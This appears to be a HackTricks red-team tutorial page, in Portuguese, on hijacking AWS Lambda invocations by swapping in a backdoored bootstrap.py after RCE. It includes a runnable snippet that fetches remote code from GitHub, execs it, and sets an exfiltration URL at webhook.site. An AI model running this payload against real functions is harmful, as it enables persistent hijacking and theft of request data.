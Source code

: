 # AWS - Roubar Solicitações Lambda

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>

## Fluxo Lambda

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** é um processo fora do contêiner que **envia** **invocações** para o processo **init**.
2. O processo init escuta na porta **9001** expondo alguns endpoints interessantes:
* **`/2018-06-01/runtime/invocation/next`** – obter o próximo evento de invocação
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – retornar a resposta do manipulador para a invocação
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – retornar um erro de execução
3. **bootstrap.py** tem um loop recebendo invocações do processo init e chama o código dos usuários para lidar com eles (**`/next`**).
4. Finalmente, **bootstrap.py** envia para o init a **resposta**

Observe que o bootstrap carrega o código do usuário como um módulo, então qualquer execução de código realizada pelo código dos usuários está realmente acontecendo neste processo.

## Roubar Solicitações Lambda

O objetivo deste ataque é fazer com que o código dos usuários execute um processo malicioso **`bootstrap.py`** dentro do processo **`bootstrap.py`** que manipula a solicitação vulnerável. Dessa forma, o processo **bootstrap malicioso** começará a **conversar com o processo init** para lidar com as solicitações enquanto o **bootstrap legítimo** está **preso** executando o malicioso, então ele não solicitará mais solicitações ao processo init.&#x20;

Isso é uma tarefa simples de alcançar, pois o código do usuário está sendo executado pelo **`bootstrap.py`** legítimo. Portanto, o atacante poderia:

* **Enviar um resultado falso da invocação atual para o processo init**, para que o init pense que o processo bootstrap está esperando mais invocações.
* Uma solicitação deve ser enviada para **`/${invoke-id}/response`**&#x20;
* O invoke-id pode ser obtido a partir da pilha do **`bootstrap.py`** legítimo usando o módulo python [**inspect**](https://docs.python.org/3/library/inspect.html) (como [proposto aqui](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) ou apenas solicitando-o novamente para **`/2018-06-01/runtime/invocation/next`** (como [proposto aqui](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Executar um **`boostrap.py`** malicioso que lidará com as próximas invocações
* Para fins de furtividade, é possível enviar os parâmetros de invocações lambda para um C2 controlado pelo atacante e depois lidar com as solicitações como de costume.
* Para este ataque, é suficiente obter o código original do **`bootstrap.py`** do sistema ou do [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), adicionar o código malicioso e executá-lo a partir da invocação lambda atual.

### Etapas do Ataque

1. Encontrar uma vulnerabilidade de **RCE**.
2. Gerar um **bootstrap** **malicioso** (por exemplo, [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Executar** o bootstrap malicioso.

Você pode facilmente realizar essas ações executando:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Para mais informações, consulte [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Referências

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

<details>

<summary><strong>Aprenda hacking na AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
